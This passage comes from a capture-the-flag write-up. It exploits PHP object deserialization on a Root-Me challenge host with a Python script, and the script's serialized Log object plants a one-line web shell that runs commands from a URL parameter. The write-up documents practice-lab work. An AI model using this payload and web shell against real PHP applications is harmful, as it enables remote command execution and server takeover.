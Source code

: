     public function __destruct() {
      file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
{% endhighlight %}


It seems that this file define a simple logging class in PHP. We are not sure what to do with yet...

But, we can combine this class and use it instead of the `Info` one in the `POST` request. Using the following script:

{% highlight python %}

import requests

#  original info object
#  payload = 'O:4:"Info":4:{' \
        #  + 's:2:"id";'\
        #  + 'i:1;'\
        #  + 's:9:"firstname";'\
        #  + 's:4:"Rene";'\
        #  + 's:7:"surname";'\
        #  + 's:8:"Margitte";'\
        #  + 's:7:"artwork";'\
        #  + 's:23:"The Treachery of Images";'\
        #  + '}'

# new Log payload
payload = 'O:3:"Log":2:{' \
        + 's:8:"filename";'\
        + 's:27:"/var/www/html/scriptz/b.php";'\
        + 's:4:"data";'\
        + 's:39:"<?php echo shell_exec($_GET["cmd"]); ?>";'\
        + '}'

data = { 'param': payload }

r = requests.post("http://ctf01.root-me.org/index.php", data=data)
print r.content

{% endhighlight %}
